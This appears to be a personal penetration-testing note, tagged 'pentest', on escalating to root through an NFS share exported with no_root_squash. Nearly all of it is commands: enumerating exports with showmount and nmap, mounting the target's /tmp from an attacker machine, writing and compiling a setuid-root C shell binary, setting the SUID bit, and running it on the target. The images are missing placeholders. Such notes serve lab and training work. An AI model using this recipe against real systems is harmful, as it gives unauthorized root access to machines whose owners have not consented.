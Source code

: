 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Mounting
Target:
```bash - target
cat /etc/exports
```

![[Pasted image 20221115140352.png]]

Notice how the /tmp directory is set to no_root_squash.

Kali:
```bash - kali
showmount -e $TARGET
```

![[Pasted image 20221110090529.png]]
Similar Nmap script:

```bash
nmap –sV –script=nfs-showmount $TARGET
```

```bash - kali
mkdir /tmp/mountme
```

```bash - kali
sudo mount -o rw,vers=2 $TARGET:/tmp /tmp/mountme
```

```bash - kali
ls /tmp/mountme
```

#### Root Squashing
```bash - kali
cd /tmp/mountme
```

```bash - kali
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > x.c
```

```bash - kali
sudo gcc x.c -o x
```

```bash - kali
sudo chmod +s x
```

Target:
```bash - target
cd /tmp
```

```bash - target
./x
```

![[Pasted image 20220220171150.png]]

